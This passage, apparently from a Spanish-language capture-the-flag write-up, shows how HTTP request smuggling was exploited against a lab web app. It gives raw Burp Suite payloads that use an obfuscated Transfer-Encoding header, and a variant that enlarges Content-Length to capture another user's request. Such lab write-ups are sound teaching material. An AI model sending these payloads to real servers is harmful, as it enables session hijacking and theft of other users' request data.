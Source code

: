 Para explotar esta vulnerabilidad vamos a utilizar el Burpsuite.

```bash
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo
Transfer-Encoding:[\x0b]chunked

0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo

msg=Adios


```

> [ ! ] Notas: Es possible que tengamos que encodear en base64 el `[\x0b]` antes de ponerla en el burpsuite y tenemos que darle al Follow redirect en este caso.

Aqui podemos ver que hemos podido enviar 2 peticiones al mismo tiempo, una nos da el mensaje **None** y la segunda nos sale **Adios**, lo que significa que
es vulnerable a **HTTP Request Smuggling**.

Intentamos cosas y nos damos cuenta que si agregamos mas content length a la segunda request podemos ver parte de la request del delete.


```bash
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 10
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo
Transfer-Encoding:[\x0b]chunked

0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencode
Content-Length: 50
Cookie: lang=es-ES; i_like_gitea=604fd0a0f47a3b62; _csrf=4/PDrYQpzOFpi6ZlhMOToLe6YnY6MTYzMTk5NTE4zUONzY2NzY2Mg;
 redirect_to=&2Froot; session=eyJlbWFpbCI6InMOdmlOyXJaczR2aXRhci5jb20ifQ.YU2HdQ.qlIPX6awl0v1C8A8UXGUHfLXFJo

msg=a


```
